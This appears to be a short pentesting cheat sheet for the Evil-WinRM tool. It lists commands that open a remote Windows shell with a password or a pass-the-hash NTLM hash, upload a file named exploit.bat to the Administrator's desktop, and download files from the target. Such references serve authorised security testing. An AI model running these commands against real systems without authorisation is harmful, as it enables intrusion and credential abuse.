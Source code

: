 ```yaml
---
title: Evil-WinRM
desc: Windows Remote Management shell for pentesting. It's also used for Pass The Hash.
tags: [ActiveDirectory, PassTheHash, Windows, WinRM]
alts: [CrackMapExec]
website: https://github.com/Hackplayers/evil-winrm
render_with_liquid: false
---
```


## Connect

```sh
evil-winrm -i 10.0.0.1 -P 5985 -u username -p password

# Pass The Hash (-H)
evil-winrm -i 10.0.0.1 -P 5985 -u username -H 0e0363213e37b94221497260b0bcb4fc

# PowerShell Local Path (-s)
evil-winrm -i 10.0.0.1 -u username -p password -s /opt/scripts
```

<br />

## Useful Commands After Connecting...

```powershell
# Upload a local file to Windows machine
PS> upload ./example.bat c:\\Users\Administrator\Desktop\exploit.bat

# Download a file to Local
PS> download c:\\Users\Administrator\Desktop\example.txt ./example.txt
```